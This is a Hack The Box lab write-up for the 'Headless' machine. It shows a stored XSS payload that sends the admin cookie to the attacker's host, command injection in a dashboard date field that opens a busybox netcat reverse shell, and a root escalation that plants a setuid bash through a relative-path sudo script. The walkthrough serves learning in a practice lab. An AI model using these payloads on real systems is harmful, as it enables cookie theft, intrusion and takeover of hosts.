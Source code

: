 ```yaml
---
tags:
  - linux
---
```

# HTB: [Headless](https://app.hackthebox.com/machines/Headless)

> [!tip]- Summary with Spoilers
> - This Linux machine included an XSS vulnerability that enabled RCE, providing initial access.
> - Privilege escalation was achieved via a misconfigured `sudo` script that invoked another script using a relative path.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Tue May 28 14:16:13 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.11.8)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

## 5000/tcp Http

![](_/htb-headless-20240528-1.png)

```console
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       93l      179w     2363c http://t:5000/support
200      GET       96l      259w     2799c http://t:5000/
500      GET        5l       37w      265c http://t:5000/dashboard
```

`/dashboard` complains about authorization:

```text
The server could not verify that you are authorized to access the URL requested. You either supplied the wrong credentials (e.g. a bad password), or your browser doesn't understand how to supply the credentials required.
```

Burp shows that it sets a cookie:

```console
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

Decoded, it contains `"user",` and some data, `f^TïËòÍhðÖðY~`.

So, first I'll try to use the form at `/support` to do an XSS attack and recover an admin's cookie.

My first attempt uses `<script>var i=new Image(); i.src="http://10.10.14.2/?cookie="+btoa(document.cookie);</script>` as the `message` parameter on the `/support` form. But, the site doesn't like that:

![](_/htb-headless-20240528-3.png)

I get one empty hit:

```console
10.10.14.2 - - [28/May/2024 16:38:29] "GET /?cookie= HTTP/1.1" 200 -
```

Eventually this one comes back:

```console
10.10.11.8 - - [28/May/2024 16:38:51] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

I'm not sure which requests those were from, since there's a lag.

Decoding the base64 value above, the cookie is:

```console
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

This time the value is "admin" not "user": `"admin"fÌ94Iº­(È½_lÄ§^ô`

I try the `/dashboard` page again, but this time I use Intercept in Burp and replace the cookie value with the one captured. Now I can view the dashboard:

![](_/htb-headless-20240528-4.png)

That's great but I also edit the cookie value in Firefox so I can play around with the dashboard without having to intercept and modify each request.

![](_/htb-headless-20240528-6.png)

Here's the POST request:

```http
POST /dashboard HTTP/1.1
Host: t:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://t:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://t:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close
date=2023-09-15
```

## RCE

Modifying the `date` parameter with a reverse shell invocation works:

```http
date=2023-09-15;busybox%20nc%2010.10.14.2%20443%20-e%20bash
```

```console
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.8] 42470
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

## PE

One script available via Sudo:

```console
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

```text
dvir@headless:~/app$ cat /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
  exit 1
fi
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
exit 0
```

I'm most interested in this line:

```console
./initdb.sh 2>/dev/null
```

Since it's using a relative path, I'll create my own malicious `initdb.sh`.

```console
dvir@headless:~/app$ echo 'cp /bin/bash /tmp/x; chmod 4755 /tmp/x' > initdb.sh
dvir@headless:~/app$ chmod +x initdb.sh
```

I'll make sure the process it's looking for isn't running:

```text
dvir@headless:~/app$ ps faxuw |grep initdb
dvir        1497  0.0  0.0   6332  2128 pts/0    S+   02:00   0:00                  \_ grep initdb
```

And then I'll trigger the exploit.

```text
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.05, 0.08, 0.08
Database service is not running. Starting it...
dvir@headless:~/app$ ls -l /tmp/x
-rwsr-xr-x 1 root root 1265648 May 29 02:00 /tmp/x
dvir@headless:~/app$ /tmp/x -p
x-5.2# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
x-5.2# cat /root/root.txt
5f8c95f...
```

## Post

## Open Questions

Unresolved issues encountered while attacking this target.

- Which parameter on the `/dashboard` form was vulnerable to XSS? I tried several but it was hard to tell which one worked since there was a delay in the response. And how did one of the responses return an empty string?

## Credits

- Thanks to [TechnoLifts writeup](https://medium.com/@technolifts/headless-hack-the-box-htb-write-up-1c728108c0ca) for getting the right syntax on the XSS.
